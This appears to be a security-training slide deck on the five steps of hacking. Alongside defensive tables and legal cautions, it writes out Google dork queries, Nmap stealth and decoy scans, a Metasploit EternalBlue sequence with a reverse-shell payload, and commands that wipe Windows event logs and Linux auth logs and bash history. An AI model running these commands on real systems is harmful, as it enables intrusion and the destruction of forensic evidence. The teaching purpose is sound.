

Five Steps of Hacking
The Classical Hacking Methodology
Understanding the Systematic Approach to System Exploitation

Five Steps of Hacking Overview
Classical Methodology: The five-step approach represents the traditional and most widely recognized framework for understanding how hackers systematically attack systems.
The Five Steps:
1. Reconnaissance (Information Gathering):
• Passive and active information collection
• Target identification and profiling
2. Scanning:
• Network discovery and port scanning
• Service enumeration and fingerprinting
3. Gaining Access (Exploitation):
• Vulnerability exploitation
• Initial system compromise
4. Maintaining Access:
• Persistence establishment
• Privilege escalation
5. Covering Tracks:
• Evidence destruction
• Anti-forensics techniques
Note: These steps apply to both malicious and ethical hacking, with ethical hackers following the same methodology under authorized conditions
Step 1: Reconnaissance
Reconnaissance: The process of gathering information about the target organization, systems, and personnel before launching an attack. Often considered the most critical phase.
Passive Reconnaissance:
- OSINT Collection: Open source intelligence gathering
- Search Engine Research: Google dorking, specialized searches
- Social Media Analysis: LinkedIn, Facebook, Twitter
- DNS Information: Whois, DNS records, subdomain enumeration
- Website Analysis: Source code, metadata, technology stack
- Public Records: Business filings, employee directories
Active Reconnaissance:
- Network Scanning: Ping sweeps, traceroute
- DNS Enumeration: Zone transfers, brute forcing
- Email Harvesting: Employee email collection
- Social Engineering: Direct contact with personnel
- Physical Surveillance: Site reconnaissance
- Network Probing: Banner grabbing, service detection
Reconnaissance Tools:
• Search: Google, DuckDuckGo, Shodan, Censys
• OSINT: Maltego, theHarvester, Recon-ng, SpiderFoot
• DNS: dig, nslookup, fierce, dnsrecon
• Social Media: Social-Engineer Toolkit (SET)
• Website: Burp Suite, OWASP ZAP, Nikto
• Network: Nmap, masscan, Zmap
Reconnaissance Techniques in Detail
Google Dorking Examples:
site:target.com filetype:pdf confidential
site:target.com "password" filetype:xls
site:target.com inurl:admin
site:target.com intitle:"index of /"
"target.com" "employee" site:linkedin.com
Step 2: Scanning
Scanning: Active probing of the target network and systems to identify live hosts, open ports, running services, and potential vulnerabilities.
Nmap Scanning Examples:
# Basic port scan
nmap -sS -O target.com
# Service version detection
nmap -sV -p 1-65535 target.com
# Vulnerability scanning
nmap --script vuln target.com
# Stealth SYN scan
nmap -sS -f -D decoy1,decoy2 target.com
Advanced Scanning Techniques
Scanning Types:
- TCP Connect Scan: Full three-way handshake
- SYN Stealth Scan: Half-open scanning
- UDP Scan: Connectionless protocol scanning
- FIN Scan: Firewall evasion technique
- Null Scan: No flags set
- Xmas Scan: FIN, PSH, URG flags set
Evasion Techniques:
- Fragmentation: Split packets to avoid detection
- Decoy Scanning: Use multiple source addresses
- Timing Controls: Slow scanning to avoid detection
- Source Port Manipulation: Use trusted ports
- Proxy Chains: Route through multiple proxies
- Protocol Manipulation: Non-standard protocols
Port States and Meanings:
• Open: Service actively listening on port
• Closed: Port accessible but no service running
• Filtered: Firewall or filter blocking access
• Unfiltered: Port accessible but state undetermined
• Open|Filtered: Port open or filtered (UDP scans)
• Closed|Filtered: Port closed or filtered
Step 3: Gaining Access
Gaining Access: The exploitation phase where attackers leverage identified vulnerabilities to gain unauthorized access to systems, applications, or networks.
Exploitation Tools:
• Frameworks: Metasploit, Cobalt Strike, Empire
• Web Apps: Burp Suite, SQLmap, XSStrike
• Network: Ettercap, Bettercap, Responder
• Custom: Exploit-DB, GitHub repositories
• Social Engineering: SET, King Phisher, Gophish
Common Exploitation Techniques
Password Attacks:
- Brute Force: Systematic password attempts
- Dictionary Attacks: Common password lists
- Rainbow Tables: Pre-computed hash lookups
- Credential Stuffing: Reused password attacks
- Password Spraying: Common passwords across accounts
- Keylogging: Credential interception
Social Engineering:
- Phishing: Fraudulent communications
- Pretexting: False scenarios for information
- Baiting: Malicious media distribution
- Quid Pro Quo: Service exchange for information
- Tailgating: Physical access following
- Watering Hole: Compromised websites
Metasploit Exploitation Example:
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(ms17_010_eternalblue) > set RHOSTS 192.168.1.100
msf6 exploit(ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(ms17_010_eternalblue) > set LHOST 192.168.1.10
msf6 exploit(ms17_010_eternalblue) > exploit
Step 4: Maintaining Access
Maintaining Access: Establishing persistent access to compromised systems to ensure continued unauthorized access even after initial vulnerabilities are patched.
Common Persistence Methods:
Windows:
• Registry Run keys modification
• Scheduled tasks creation
• Service installation
• DLL hijacking
• WMI event subscriptions
Linux:
• Cron job creation
• SSH key injection
• .bashrc modification
• Systemd service creation
• Init script modification
Advanced Persistence and Lateral Movement
Modern Persistence:
- Living off the Land: Using legitimate tools
- Fileless Malware: Memory-resident attacks
- PowerShell Empire: PowerShell-based persistence
- WMI Backdoors: Windows Management Instrumentation
- Golden Tickets: Kerberos authentication bypass
- Silver Tickets: Service-specific authentication
Network Persistence:
- Network Implants: Hardware-based persistence
- DNS Tunneling: Covert communication channels
- C2 Infrastructure: Command and control servers
- Domain Fronting: Traffic disguising
- Beaconing: Periodic communication
- Dead Drops: Asynchronous communication
Lateral Movement Techniques:
• PsExec: Remote process execution
• WinRM: Windows Remote Management
• RDP: Remote Desktop Protocol
• SSH: Secure Shell tunneling
• SMB: Server Message Block shares
• DCOM: Distributed Component Object Model
Step 5: Covering Tracks
Covering Tracks: The final phase where attackers attempt to hide evidence of their intrusion and maintain stealth to avoid detection by security teams and forensic investigators.
Anti-Forensics Techniques:
•
Data Wiping: Secure deletion tools (sdelete, shred)
•
Steganography: Hiding data in images/files
•
Encryption: Protecting stolen data
•
Time Stomping: File timestamp manipulation
•
Alternate Data Streams: Hidden file storage
•
Memory Dumping: RAM content clearing
Advanced Track Covering
Windows Log Clearing:
- Event Viewer: Security, System, Application logs
- PowerShell: Clear-EventLog cmdlets
- wevtutil: Command-line event utility
- Registry: Event log configuration
- WMI: Log management through WMI
Linux Log Clearing:
- System Logs: /var/log/* manipulation
- Auth Logs: SSH and authentication records
- Bash History: Command history clearing
- Wtmp/Utmp: User session logs
- Syslog: Central logging system
Windows Log Clearing Commands:
# PowerShell
Clear-EventLog -LogName Security, System, Application
# Command Prompt
wevtutil cl Security
wevtutil cl System
wevtutil cl Application
Linux Log Clearing Commands:
# Clear bash history
history -c && history -w
# Clear system logs
echo "" > /var/log/auth.log
echo "" > /var/log/syslog
Modern Detection Challenges
Evolution of Attacks: Modern attackers use sophisticated techniques to evade detection, making traditional log-based detection insufficient.
Advanced Evasion:
- Living off the Land: Using legitimate system tools
- Memory-only Attacks: Avoiding file system artifacts
- Encrypted Communications: C2 traffic encryption
- Legitimate Protocols: DNS, HTTPS tunneling
- Behavioral Mimicry: Normal user activity simulation
Modern Defenses:
- Behavioral Analytics: User and Entity Behavior Analytics
- Memory Forensics: Runtime memory analysis
- Network Traffic Analysis: Deep packet inspection
- Threat Hunting: Proactive threat detection
- AI/ML Detection: Machine learning anomaly detection
Detection Strategies:
• Baseline Establishment: Normal behavior patterns
• Anomaly Detection: Deviation from normal
• Correlation Analysis: Multi-source event correlation
• Threat Intelligence: Known bad indicators
• Deception Technology: Honeypots and honey tokens
Ethical Considerations and Legal Boundaries
Important Distinction: While these five steps describe how attacks occur, ethical hackers must operate within legal boundaries and with explicit authorization.
Malicious Application:
- No Authorization: Illegal system access
- Criminal Intent: Data theft, damage, profit
- Stealth Operations: Avoiding detection
- Persistence: Long-term unauthorized access
- Cover-up: Evidence destruction
Ethical Application:
- Written Authorization: Legal permission
- Security Improvement: Vulnerability identification
- Documented Testing: Transparent methodology
- Limited Scope: Defined testing boundaries
- Comprehensive Reporting: Detailed findings
Legal Requirements:
- Explicit written authorization from system owners
- Defined scope and limitations
- Professional liability insurance
- Compliance with applicable laws and regulations
- Responsible disclosure of findings
Defending Against the Five Steps
| Step |
Attack Actions |
Defensive Measures |
Detection Methods |
| Reconnaissance |
Information gathering, OSINT |
Information sanitization, employee training |
Web monitoring, social media oversight |
| Scanning |
Port scans, vulnerability assessment |
Firewalls, IDS/IPS, port filtering |
Network monitoring, scan detection |
| Gaining Access |
Exploit execution, credential attacks |
Patch management, access controls |
Intrusion detection, behavioral analysis |
| Maintaining Access |
Backdoors, privilege escalation |
Endpoint protection, privilege management |
Host monitoring, anomaly detection |
| Covering Tracks |
Log clearing, evidence destruction |
Log forwarding, immutable logs |
Forensic analysis, integrity monitoring |
Key Takeaways
- The five steps represent a systematic approach to understanding attacks
- Reconnaissance is often the most critical phase for attack success
- Each step builds upon the previous one in the attack chain
- Modern attacks use sophisticated evasion and persistence techniques
- Defensive strategies must address each phase of the attack lifecycle
- Ethical hackers follow the same methodology under authorized conditions
- Understanding attack methodology is essential for effective defense
- Legal authorization is absolutely required for any security testing
Remember: Knowledge of attack methodologies should only be used for legitimate security improvement purposes with proper authorization and within legal boundaries
Thank You
Questions & Discussion
Next: Kali Linux